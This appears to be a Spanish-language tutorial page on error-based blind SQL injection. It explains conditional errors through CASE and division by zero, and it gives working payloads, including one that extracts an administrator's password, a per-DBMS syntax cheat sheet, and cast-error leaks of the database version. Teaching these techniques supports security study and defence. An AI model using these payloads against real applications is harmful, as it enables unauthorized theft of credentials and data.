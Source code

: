 ```yaml
---
layout: default
title: 4.2 Basadas en error
permalink: /injection_types/blind/error_based_type
nav_order: 2
parent: 4. Inyecciones ciegas
has_children: true
---
```


# Inyecciones ciegas basadas en error

La detección se complica. La aplicación no se comporta de manera diferente agregando condiciones extra que se esperaría que puedan terminar en una consulta SQL. En esta situación, es posible **inducir a la aplicación a devolver respuestas condicionales activando errores SQL condicionalmente**, dependiendo de una condición inyectada. Esto implica modificar la consulta para que **cause un error en la base de datos** si la condición es verdadera, pero no si la condición es falsa (o al revés). Un error del DBMS no manejado por la aplicación causará alguna diferencia en la respuesta (como un mensaje de error), lo que permite inferir la veracidad de la condición inyectada.

Con el mismo ejemplo de consulta que en [4.1 Con respuestas condicionales](/test-page/injection_types/blind/conditional_type), se envían estos dos *payloads* de inyección: 

```  
...Tj4' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
...Tj4' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```  

Ambos usan una sentencia `CASE` para **probar una condición y devolver una expresión diferente** dependiendo de si la misma es verdadera. Con la primera entrada, el `CASE` evalúa a `'a'`, que no causa ningún error, pero en la segunda entrada, se evalúa la ecuación `1/0`, que causa un error (*Zero división error*). **Suponiendo que el error causa una diferencia** en la respuesta HTTP obtenida, podemos utilizar las diferencias de los códigos de respuesta HTTP para identificar si la condición inyectada es verdadera **y a partir de allí automatizar la inyección**.

Usando esta técnica se pueden extraer datos de la manera descrita anteriormente:

```  
...Tj4' AND (SELECT CASE WHEN 
    (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
    THEN 1/0 ELSE 'a' END FROM Users) = 'a
```  

Información básica sobre variantes de sintaxis para generar errores condicionales en distintos DBMS:

| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

La sintaxis no siempre va a ser tan directa de aplicar y la interpretación de algunos paréntesis o condiciones de error pueden cambiar para un mismo DBMS en diferentes versiones.

## Hacer ver a la ciega

En una inyección ciega, extraer contenido por deducciones y errores es parecido a decirle al oído a la ciega cómo se ve el resultado. Pero mejor es hacerla ver.

Existen técnicas que permiten devolver **el resultado de la consulta en el propio error**. La más simple es **provocar errores de conversión o *cast*** que indiquen que el resultado parcial, ya procesado por el DBMS, no es convertible. Por ejemplo, la siguiente línea intenta convertir a númerico un *string* complejo que debería tener la versión del DBMS:

``` sql 
1=convert(int,@@version)--
```

Aplicado a una de las consultas de ejemplo anteriores:

```sql 
SELECT TrackingId FROM TrackedUsers WHERE 
    TrackingId = 'PeniarolONacionalTantoMeDa' AND 1=convert(int,@@version)--'
```

Puede generar el siguiente error como respuesta:

```
Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value 
"Microsoft SQL Server 2012 (SP1) - 110.0.3156.0 (X64) Copyright (c) Microsoft Corporation 
Standard Edition (64-bit) on Windows NT 6.2 X64 (Build 9200: ) (Hypervisor)" to data type 
int. (severity 16 in D:\something\web\STD...\id.php on line...
```

Si esto sucede, no hay más ceguera. Es cuestión de extraer el resultado directamente como en una inyección clásica con datos visbles.
